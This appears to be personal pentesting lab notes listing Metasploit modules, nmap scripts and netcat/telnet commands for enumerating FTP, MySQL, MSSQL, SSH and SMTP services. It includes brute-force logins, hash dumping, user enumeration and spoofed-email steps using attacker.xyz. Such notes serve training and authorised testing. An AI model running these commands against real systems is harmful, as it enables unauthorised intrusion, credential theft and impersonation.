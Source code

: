 # Service Enumeration





Without Credentials






With Credentials






















- Network Service Discovery. <https://attack.mitre.org/techniques/T1046/>










## FTP

auxiliary/scanner/ftp/ftp_version

auxiliary/scanner/ftp/anonymous

auxiliary/scanner/ftp/ftp_login # brute force
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
























## MySQL
auxiliary/scanner/mysql/mysql_version
auxiliary/scanner/mysql/mysql_login # brute force
	try root first: set USERNAME root


auxiliary/admin/mysql/mysql_enum # requires credentials!

auxiliary/admin/mysql/mysql_sql
	set SQL [SQL QUERY];
	


auxiliary/scanner/mysql/mysql_schemadump
auxiliary/scanner/mysql/mysql_hashdump



```
use auxiliary/scanner/mysql/mysql_file_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS 192.76.252.3
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE true
run
```


```
use auxiliary/scanner/mysql/mysql_writable_dirs
set RHOSTS 192.76.252.3
set USERNAME root
set PASSWORD twinkle
set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
run
```




Just try log as `root`: `mysql -h [TARGET] -u root`
`nmap [IP] -sV -p 3306 --script=mysql-empty-password`

### nmap
```
nmap [IP] -sV -p 3306 --script=mysql-info

nmap [IP] -sV -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"
nmap [IP] -sV -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"
nmap [IP] -sV -p 3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"
nmap [IP] -sV -p 3306 --script=mysql-dump-hashes --script-args="username='root',password=''"


nmap [IP] -sV -p 3306 --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''"




# audit
# This is good to run for developers to check wheter they have configured things correctly
nmap [IP] -sV -p 3306 --script=mysql-audit --script-args="mysql-audit.user='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"


```











## MSSQL / Microsot SQL Server


auxiliary/scanner/mssql/mssql_login
auxiliary/admin/mssql/mssql_enum
auxiliary/admin/mssql/mssql_enum_sql_logins
auxiliary/admin/mssql/mssql_exec


nmap [IP] -p 1433 --script ms-sql-info
nmap [IP] -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433
nmap [IP] -p 1433 --script ms-sql-brute --script-args userdb=/[path to file],passdb=[path to pass file]

















## SSH
auxiliary/scanner/ssh/ssh_versionI
auxiliary/scanner/ssh/ssh_login # brute force
auxiliary/scanner/ssh/ssh_enumusers # super useful!

```
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.245.211.3
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```


### Get ssh banner with `nc`
`nc [IP] 22`
`nc -nv [IP] 22`


### Nmap
```
# Enumerate algorithms
nmap [IP] -p22 --script ssh2-enum-algos

# SSH Keys
nmap [IP] -p22 --script ssh-hostkey --script-args ssh_hostkey=full


nmap [IP] -p22 --script ssh-auth-methods --script-args="ssh.user=[USERNAME]"

```













## SMTP
auxiliary/scanner/smtp/smtp_version
auxiliary/scanner/smtp/smtp_enum # user enumeration


```
# What is the SMTP server name and banner
nmap -sV -script banner [IP]

# 1 Connect to SMTP service using netcat and retrieve the hostname of the server (domain name)
nc [IP] 25

# 2 Does user “admin” exist on the server machine?
VRFY admin@[DOMAIN]

# What commands can be used to check the supported commands/capabilities? Connect to SMTP service using telnet and check

telnet [IP]
HELO attacker.xyz
EHLO attacker.xyz



# How many of the common usernames present in the dictionary /usr/share/commix/src/txt/usernames.txt exist on the server. Use smtp-user-enum tool for this task
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t [IP]


# How many common usernames present in the dictionary /usr/share/metasploit-framework/data/wordlists/unix_users.txt exist on the server. Use suitable metasploit module for this task

use auxiliary/scanner/smtp/smtp_enum
set RHOSTS [IP]
exploit

```



### Connect to SMTP service using telnet and send a fake mail to root user
(Note: There is a dot(.) in the last line which indicates the termination of data)

```
telnet [IP] 25
HELO attacker.xyz
mail from: admin@attacker.xyz
rcpt to:root@openmailbox.xyz
data
Subject: Hi Root
Hello,
This is a fake mail sent using telnet command.
From,
Admin
.
```


### Send a fake mail to root user using sendemail command
```
sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s 192.26.29.3 -u Fakemail -m "Hi root, a fake from admin" -o tls=no


```


See:
- Postfix (http://www.postfix.org/)
- smtp-user-enum (https://tools.kali.org/information-gathering/smtp-user-enum)
- sendmail (http://www.postfix.org/sendmail.1.html)
- Metasploit Module: SMTP User Enumeration Utility https://www.rapid7.com/db/modules/auxiliary/scanner/smtp/smtp_enum



















